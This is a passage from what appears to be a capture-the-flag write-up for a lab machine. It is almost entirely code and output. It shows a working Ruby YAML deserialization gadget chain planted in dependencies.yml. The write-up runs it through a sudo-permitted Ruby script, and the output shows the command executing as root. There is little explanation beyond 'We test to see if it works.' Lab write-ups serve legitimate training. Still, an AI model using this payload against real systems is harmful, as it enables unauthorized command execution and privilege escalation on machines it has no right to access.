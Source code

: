 ```bash
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve

```

```bash
henry@precious:/tmp$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve

```

We test to see if it works.

```bash
henry@precious:/tmp$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
```